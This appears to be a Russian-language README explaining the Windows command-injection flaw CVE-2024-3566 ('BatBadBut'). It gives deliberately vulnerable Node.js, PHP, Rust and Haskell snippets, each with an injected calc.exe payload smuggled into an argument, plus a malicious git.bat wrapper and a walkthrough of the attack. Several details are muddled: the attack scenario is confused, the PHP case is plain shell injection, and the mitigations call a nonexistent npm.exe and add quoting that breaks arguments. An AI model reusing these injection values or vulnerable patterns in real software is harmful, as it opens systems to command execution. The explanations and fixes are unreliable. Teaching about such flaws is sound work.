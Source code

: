 # CVE-2024-3566 (BatBadBut) - Примеры использования

## Описание уязвимости

CVE-2024-3566, также известная как "BatBadBut", представляет собой уязвимость командной инъекции в Windows-приложениях, которые косвенно зависят от функции `CreateProcess`. Уязвимость затрагивает различные языки программирования, включая Node.js, Haskell, Rust и PHP, работающие на Windows-системах.

### Причина уязвимости

Проблема возникает из-за некорректной обработки аргументов командной строки при выполнении команд через функцию `CreateProcess`, особенно при работе с batch-файлами (.bat, .cmd). Когда `CreateProcess` не может найти исполняемый файл с указанным именем, Windows автоматически пытается выполнить batch-файл с тем же именем, вызывая `cmd.exe`.

## Примеры уязвимого кода

### 1. Node.js - child_process.spawn()

```javascript
const { spawn } = require('child_process');

// Уязвимый код
function executeCommand(userInput) {
    // Если существует файл npm.bat в PATH, это может быть использовано для инъекции
    const child = spawn('npm', ['install', userInput]);
    
    child.on('close', (code) => {
        console.log(`Процесс завершен с кодом ${code}`);
    });
}

// Пример атаки
// Если userInput = 'package" && calc.exe && echo "', то команда может быть:
// cmd /c npm install package" && calc.exe && echo ""
executeCommand('package" && calc.exe && echo "');
```

### 2. PHP - proc_open()

```php
<?php
// Уязвимый код
function runCommand($userInput) {
    $command = "git clone " . $userInput;
    
    $descriptorspec = array(
        0 => array("pipe", "r"),
        1 => array("pipe", "w"),
        2 => array("pipe", "w")
    );
    
    // Если git.bat существует, это может привести к инъекции команд
    $process = proc_open($command, $descriptorspec, $pipes);
    
    if (is_resource($process)) {
        fclose($pipes[0]);
        echo stream_get_contents($pipes[1]);
        fclose($pipes[1]);
        fclose($pipes[2]);
        proc_close($process);
    }
}

// Пример атаки
runCommand('https://github.com/user/repo.git" && calc.exe && echo "');
?>
```

### 3. Rust - std::process::Command

```rust
use std::process::Command;

// Уязвимый код
fn execute_git_command(user_input: &str) {
    let output = Command::new("git")
        .arg("clone")
        .arg(user_input)
        .output()
        .expect("Не удалось выполнить команду");
    
    println!("Статус: {}", output.status);
    println!("stdout: {}", String::from_utf8_lossy(&output.stdout));
    println!("stderr: {}", String::from_utf8_lossy(&output.stderr));
}

// Пример атаки
fn main() {
    // Если git.bat существует в PATH, это может быть использовано для атаки
    execute_git_command("https://repo.git\" && calc.exe && echo \"");
}
```

### 4. Haskell - System.Process

```haskell
import System.Process

-- Уязвимый код
executeCommand :: String -> IO ()
executeCommand userInput = do
    let command = "npm"
    let args = ["install", userInput]
    
    -- Если npm.bat существует, это может привести к инъекции команд
    (exitCode, stdout, stderr) <- readProcessWithExitCode command args ""
    
    putStrLn $ "Код выхода: " ++ show exitCode
    putStrLn $ "stdout: " ++ stdout
    putStrLn $ "stderr: " ++ stderr

-- Пример использования с инъекцией
main :: IO ()
main = executeCommand "package\" && calc.exe && echo \""
```

## Примеры эксплуатации

### Создание вредоносного batch-файла

```batch
@echo off
REM Сохранить как git.bat в каталоге, включенном в PATH

echo Выполняется вредоносный git.bat
echo Аргументы: %*

REM Выполнение оригинальной команды git
"C:\Program Files\Git\bin\git.exe" %*

REM Выполнение вредоносного кода
if "%~2" NEQ "" (
    echo Обнаружена потенциальная инъекция: %~2
    REM Здесь может быть любой вредоносный код
    calc.exe
)
```

### Пример полной атаки

1. Злоумышленник размещает вредоносный `npm.bat` в каталоге, который находится в PATH раньше настоящего npm
2. Приложение выполняет: `spawn('npm', ['install', 'package" && calc.exe && echo "'])`
3. Windows вызывает: `cmd /c npm install package" && calc.exe && echo ""`
4. Выполняется вредоносный код `calc.exe`

## Методы защиты

### 1. Явное указание расширения .exe

```javascript
// Безопасный код - явно указываем .exe
const child = spawn('npm.exe', ['install', userInput]);
```

### 2. Экранирование аргументов

```javascript
function escapeShellArg(arg) {
    // Простое экранирование для Windows cmd
    return '"' + arg.replace(/"/g, '""') + '"';
}

const child = spawn('npm.exe', ['install', escapeShellArg(userInput)]);
```

### 3. Использование абсолютных путей

```javascript
const path = require('path');
const npmPath = path.join(process.env.PROGRAMFILES, 'nodejs', 'npm.exe');
const child = spawn(npmPath, ['install', userInput]);
```

### 4. Валидация входных данных

```javascript
function validateInput(input) {
    // Проверка на наличие подозрительных символов
    const dangerousChars = /[&|;`$(){}[\]]/;
    if (dangerousChars.test(input)) {
        throw new Error('Недопустимые символы во входных данных');
    }
    return input;
}
```

## Затронутые версии и исправления

### Node.js
- Уязвимые версии: все версии до исправления
- Исправлено в: Node.js 18.20.1+, 20.12.1+, 22.0.0+

### Rust
- Затронуты версии до исправления в стандартной библиотеке
- Рекомендуется обновление до последних версий

### PHP
- Проблема может присутствовать во всех версиях при использовании функций выполнения команд
- Требуется ручное экранирование

### Haskell
- Затронуты версии библиотеки process
- Рекомендуется обновление и использование безопасных практик

## Дополнительные рекомендации

1. **Избегайте выполнения команд с пользовательским вводом** без строгой валидации
2. **Используйте белые списки** допустимых команд и аргументов
3. **Применяйте принцип минимальных привилегий** для процессов
4. **Регулярно обновляйте** среды выполнения и зависимости
5. **Мониторьте выполнение команд** в продакшене

## Ссылки

- [CVE-2024-3566 в NVD](https://nvd.nist.gov/vuln/detail/CVE-2024-3566)
- [Исследование Flatt Tech "BatBadBut"](https://flatt.tech/research/posts/batbadbut-you-cant-securely-execute-commands-on-windows/)
- [CERT/CC VU#123335](https://www.kb.cert.org/vuls/id/123335)
- [Microsoft Docs: Command Line Arguments](https://docs.microsoft.com/en-us/archive/blogs/twistylittlepassagesallalike/everyone-quotes-command-line-arguments-the-wrong-way)